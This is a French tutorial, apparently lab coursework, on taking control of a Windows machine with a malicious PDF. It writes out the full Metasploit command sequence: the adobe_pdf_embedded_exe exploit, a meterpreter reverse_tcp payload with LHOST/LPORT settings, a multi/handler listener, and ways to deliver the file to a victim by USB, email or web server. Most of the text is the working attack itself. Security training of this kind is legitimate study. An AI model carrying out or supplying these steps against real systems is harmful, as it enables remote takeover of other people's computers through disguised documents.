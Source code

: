 # Tutoriel : Prendre le contrôle d’une machine windows avec un fichier pdf

Avant de commencer ce tutoriel, je vous conseillerai d’aller voir le cours sur le reverse shell pour bien comprendre les différentes étapes. Si vous avez lu le cours, je vous conseille maintenant d’aller commencer à télécharger la machine virtuelle que vous pourrez importer dans virtualbox en cliquant sur : [télécharger la Machine Virtuelle](https://mega.nz/file/YbEHwDJa#ky-4v_EFZCSYkLJLwulOvQXYNAbfivyp73gFinxZoDk){:target="_blank"}

## Étape 1 : Créer et récupérer le pdf malicieux
Métasploit propose un grand nombre de payloads divers et variés. En tapant les bonnes recherches, il sera possible de trouver facilement celui qui nous intéresse.
Tapez la commande ```msfconsole``` pour démarrer métasploit.
Ensuite il faut chercher le payload. 
Tapez ```search windows fileformat pdf```. Vous aurez un résultat comme ci dessous :

![image search](images/search_msfconsole.png)

Plusieurs modules répondent à notre recherche, mais peu d’entre eux sont classés comme excellents. Nous allons donc prendre le numéro 6.
Pour l’utiliser tapez ```use exploit/windows/fileformat/adobe_pdf_embedded_exe```
Nous allons vouloir configurer un payload qui nous fera une connexion vers notre machine et qui ouvrira une session meterpreter. 
Ainsi, tapons la commande : ```set payload windows/meterpreter/reverse_tcp```

Pour voir les options actuelles du payload, tapez : ```show options```
![image options](images/show_options.png)

Vous devriez avoir quelque chose comme cela, peut être qu’une adresse par défaut ou qu’un port par défaut à été renseigné pour LHOST et LPORT.
Nous allons configurer ce payload. Il faut commencer par renseigner les valeurs de LHOST et LPORT.
Pour cela tapez ```set LHOST x.x.x.x``` en remplaçant les x par les valeurs de l’adresse ip de votre machine. Puis tapez ```set LPORT xxx``` en remplaçant xxx par le port de votre choix (par exemple, ```set LPORT 4444```).
vous pouvez refaire un show options, vous devriez voir que les options ont été prises en compte.
Vous pouvez ensuite modifier le nom de votre fichier pdf en tapant ```set FILENAME xxxx.pdf``` en remplaçant xxxx par le nom que vous voulez donner.

Quand tout est prêt, tapez exploit. Vous verrez ensuite que votre fichier a été créé et la console vous indique à la dernière ligne le chemin d’accès à ce fichier.

## ÉTAPE 2 : Activer le listener
Pour activer le listener, il vous faudra taper la commande ```use exploit/multi/handler```
puis ```set payload windows/meterpreter/reverse_tcp```
De même que précédemment, il vous faut renseigner LHOST et LPORT. Quand cela est fait, tapez exploit.

## ÉTAPE 3 : Envoyer le fichier
Vous pouvez envoyer le fichier de toutes les manières possibles : par usb, par mail, en le mettant en ligne en ayant démarré un serveur apache,... et tout autre technique imaginable.

## ÉTAPE 4 : Ouvrir le fichier
Le fichier est bien téléchargé sur la machine virtuelle.
Avant de l’ouvrir, vérifiez bien que le listener est lancé. Vous devez voir cela : 

![image listener](./images/listener.png)

avec votre adresse et votre port que vous avez renseigné.

Si tout est prêt, ouvrez le pdf avec adobe reader 8 ! 

![image enregistrer](./images/enregistrer-template.png)

Enregistrez template.pdf s’il vous le demande.

![image open](./images/openpdf.png)

Cliquez sur open.

Retournez voir votre listener… Une fenêtre meterpreter s’est lancée, une connexion a été faite entre votre machine et celle de la victime. Tapez ```help``` pour voir tout ce qu’il vous est possible de faire. Amusez-vous bien ! Félicitations !